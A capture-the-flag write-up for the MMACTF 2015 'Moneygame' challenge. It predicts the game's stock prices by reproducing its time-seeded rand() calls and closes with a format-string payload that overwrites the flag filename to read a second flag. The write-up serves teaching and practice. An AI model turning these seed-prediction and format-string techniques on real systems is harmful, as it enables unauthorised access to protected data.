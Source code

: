 ```yaml
---
layout: post
title: "MMACTF 2015 - Moneygame"
date: 2015-09-07 18:03:59
categories: CTF Pwnable
---
```


We are presented with a stock market game. We have to time the market just right in order to get 10x our initial cash pile. Psh.. easy peasy

```
Week #1: 
You have $10000.00!
Stock #1: $100.00 (You have 0.)
Stock #2: $100.00 (You have 0.)
Stock #3: $100.00 (You have 0.)
Action (Buy/Sell/Rest) [Rest] : Buy
Which stock do you want to buy? (1-3) [1]: 1
How many stocks do you want to buy? (0-100) [0]: 100


Week #2: 
You have $0.00!
Stock #1: $103.16 (You have 100.)
Stock #2: $91.44 (You have 0.)
Stock #3: $92.64 (You have 0.)
Action (Buy/Sell/Rest) [Rest] : 
```

Taking a look at the binary, we see that the numbers are generated from an `srand(time(0))`. This is great for us, since we can create the same random number sequence on our end, thus negating the "random" factor of the stocks.

![srand.png](/assets/images/srand.png)

## Quick aside

There is a print function that clears the screen in the binary. This only allowed for one week of stocks to be seen at one time. This was quite annoying for debugging. Let's remove that functionality by patching over a call to `printf()`. Patching over it is a breeze with [binjitsu](http://www.github.com/binjitsu/binjitsu).

```python
from pwn import *

elf = ELF('moneygame')

# NOP out annoying print that clears screen
# call printf is 5 bytes
for addr in (0x80487b3, 0x80487b8):
    elf.asm(addr, 'nop')

elf.save('moneygame-patched')
```

Now, `moneygame-patched` can use used locally without the annoying screen clear. Now to the actual write-up

## Flag 1

With the help of Python's ctypes, generating random numbers on our end is trivial:

```python
from ctypes import CDLL
libc = CDLL('libc-2.19.so')

# Seed srand with time(0)
now = int(floor(time.time()))
libc.srand(now)

random_num = libc.rand()
```

From here, we replicate the same function that creates the stocks from the binary in Python:

```python
def set_stocks():
    '''Create stocks based on current srand'''
    for index in xrange(1, 4):
        stocks[index].append(10000)

    for _ in xrange(54):
        for index in xrange(1, 4):
            curr_stock = stocks[index][-1]

            # Use of libc's rand in Python
            curr_stock += libc.rand() % 2001 - 1000
            if curr_stock <= 4999:
                curr_stock = 5000
            if curr_stock > 15000:
                curr_stock = 15000

            stocks[index].append(curr_stock)
```

Now that we have our three stock listings, we have to determine the optimal buy/sell path to success.

The quick and dirty method I used is described below:

* Calculate the peaks and valleys of each stock listings
* Calculate the largest profit margins for each stock using the peaks and valleys
* Sort all profit margins together
* Attempt to fill the 54 weeks based on the profit margins

An example of the last step of this simple algorithm is below:

The top three profit margins:

```
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
[1, 5, 50,  '2'] Stock 2 from week 1 to 5 yields 100
```

Starting with the most profitable, fill in our available actions:

```
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100

Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', '', '', '']
```

Second most profitable:

```
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80

Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
```

Our third most profitable overlaps and existing range i.e. the [4, 6, 100, '1']. In this case, fill as much as we can before the start of the existing range.
Note: This is not optimal. Bigger improvements can be made, but are not necessary.

```
[1, 5, 50, '2']

# Note: 1 - 5 overlaps into existing 4 - 6, Try to go as far as we can before selling.
Actions: ['', 'Buy stock2', 'Rest', 'Sell stock2', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
```

Now that we have our optimal actions, we simulate these actions in order to determine if the actions result in a bank of $100k. We don't want to waste time with the server, if we know ahead of time that we can lose.

Once we determine that we can win, we simply throw our results at the server and retrieve the first flag.

## Flag 2

There is a string format vulnerability in the name field of the high score after winning the game. After winning the game, the binary grabs the filename of the flag `flag1`, reads the contents of the file, and returns the contents to the user. We are given that the second flag is named `flag2`, so we can use the string format to simply change the filename from `flag1` to `flag2`. 

```python
# Located at offset 7 on the stack
# 0x804a2b4 = 'flag1'
# 0x804a2b8 = '1'
# '2' == 50
# Padding necessary -> 50 - 4 bytes of address = 46
shellcode = p32(0x804a2b8) + '%46c%7$hhn'
```
